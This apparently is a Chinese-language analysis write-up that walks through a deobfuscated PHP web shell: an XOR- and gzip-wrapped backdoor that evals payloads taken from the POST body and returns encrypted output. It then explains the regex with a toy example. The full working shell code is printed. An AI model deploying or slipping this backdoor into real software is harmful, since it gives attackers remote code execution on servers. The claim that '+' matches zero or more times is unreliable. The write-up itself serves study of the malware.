 首先，第一部分的进行替换字符之后，得到

```php
$k="8c319f28";
$kh="d81d1527a942";
$kf="8e9a5c2195f5";
$p="ZnCtZbYsDzbbdvRw";

function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";

    for ($i = 0; $i < $l;) {
        for ($j = 0; ($j < $c && $i < $l); $j++, $i++) {
            $o .= $t{$i} ^ $k{$j};
        }
    }

    return $o;
}

if(@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1) {
	@ob_start();
	@eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));
	$o=@ob_get_contents();//获取当前缓冲区的内容，并返回缓冲区的数据
	@ob_end_clean();//停止输出缓冲并清空缓冲区的内容，同时关闭输出缓冲区
	$r=@base64_encode(@x(@gzcompress($o),$k));
	print("$p$kh$r$kf");}
```

从if语句的部分开始拆分

## *@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)*

**"/$kh(.+)$kf/"**

- `()`标记一个子表达式的开始和结束位置。
- `.`匹配除换行符之外的任何单个字符
- `+`匹配前面的子表达式0次或者多次

写一个例子来理解：

```php
$k = 'cr';
$s = 'ke';

$a = 'cream soda you know i like it like that ';

$c = preg_match("/$k(.+)$s/", $a, $cc);

var_dump($cc);

/*结果：
array(2) {
  [0] =>
  string(34) "cream soda you know i like it like"
  [1] =>
  string(30) "eam soda you know i like it li"
}
*/
```
